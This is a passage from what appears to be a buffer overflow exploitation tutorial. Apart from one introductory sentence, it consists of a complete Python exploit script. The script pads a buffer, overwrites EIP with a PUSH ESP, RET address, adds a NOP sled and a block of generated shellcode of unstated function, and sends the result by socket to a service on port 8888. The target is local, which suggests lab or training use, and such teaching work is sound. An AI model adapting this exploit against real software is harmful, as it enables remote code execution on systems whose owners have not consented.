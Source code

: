 Lastly, Im going to replace the shellcode in the exploit with the one I just generated. 

The final exploit code should look something like this :

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

payload  = b""
payload += b"\xbb\xc4\x1c\x1b\x3a\xda\xda\xd9\x74\x24\xf4\x5a\x29"
payload += b"\xc9\xb1\x52\x31\x5a\x12\x83\xea\xfc\x03\x9e\x12\xf9"
payload += b"\xcf\xe2\xc3\x7f\x2f\x1a\x14\xe0\xb9\xff\x25\x20\xdd"
payload += b"\x74\x15\x90\x95\xd8\x9a\x5b\xfb\xc8\x29\x29\xd4\xff"
payload += b"\x9a\x84\x02\xce\x1b\xb4\x77\x51\x98\xc7\xab\xb1\xa1"
payload += b"\x07\xbe\xb0\xe6\x7a\x33\xe0\xbf\xf1\xe6\x14\xcb\x4c"
payload += b"\x3b\x9f\x87\x41\x3b\x7c\x5f\x63\x6a\xd3\xeb\x3a\xac"
payload += b"\xd2\x38\x37\xe5\xcc\x5d\x72\xbf\x67\x95\x08\x3e\xa1"
payload += b"\xe7\xf1\xed\x8c\xc7\x03\xef\xc9\xe0\xfb\x9a\x23\x13"
payload += b"\x81\x9c\xf0\x69\x5d\x28\xe2\xca\x16\x8a\xce\xeb\xfb"
payload += b"\x4d\x85\xe0\xb0\x1a\xc1\xe4\x47\xce\x7a\x10\xc3\xf1"
payload += b"\xac\x90\x97\xd5\x68\xf8\x4c\x77\x29\xa4\x23\x88\x29"
payload += b"\x07\x9b\x2c\x22\xaa\xc8\x5c\x69\xa3\x3d\x6d\x91\x33"
payload += b"\x2a\xe6\xe2\x01\xf5\x5c\x6c\x2a\x7e\x7b\x6b\x4d\x55"
payload += b"\x3b\xe3\xb0\x56\x3c\x2a\x77\x02\x6c\x44\x5e\x2b\xe7"
payload += b"\x94\x5f\xfe\xa8\xc4\xcf\x51\x09\xb4\xaf\x01\xe1\xde"
payload += b"\x3f\x7d\x11\xe1\x95\x16\xb8\x18\x7e\x13\x37\x2c\x01"
payload += b"\x4b\x45\x30\xde\xa1\xc0\xd6\x4a\xa6\x84\x41\xe3\x5f"
payload += b"\x8d\x19\x92\xa0\x1b\x64\x94\x2b\xa8\x99\x5b\xdc\xc5"
payload += b"\x89\x0c\x2c\x90\xf3\x9b\x33\x0e\x9b\x40\xa1\xd5\x5b"
payload += b"\x0e\xda\x41\x0c\x47\x2c\x98\xd8\x75\x17\x32\xfe\x87"
payload += b"\xc1\x7d\xba\x53\x32\x83\x43\x11\x0e\xa7\x53\xef\x8f"
payload += b"\xe3\x07\xbf\xd9\xbd\xf1\x79\xb0\x0f\xab\xd3\x6f\xc6"
payload += b"\x3b\xa5\x43\xd9\x3d\xaa\x89\xaf\xa1\x1b\x64\xf6\xde"
payload += b"\x94\xe0\xfe\xa7\xc8\x90\x01\x72\x49\xb0\xe3\x56\xa4"
payload += b"\x59\xba\x33\x05\x04\x3d\xee\x4a\x31\xbe\x1a\x33\xc6"
payload += b"\xde\x6f\x36\x82\x58\x9c\x4a\x9b\x0c\xa2\xf9\x9c\x04"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```
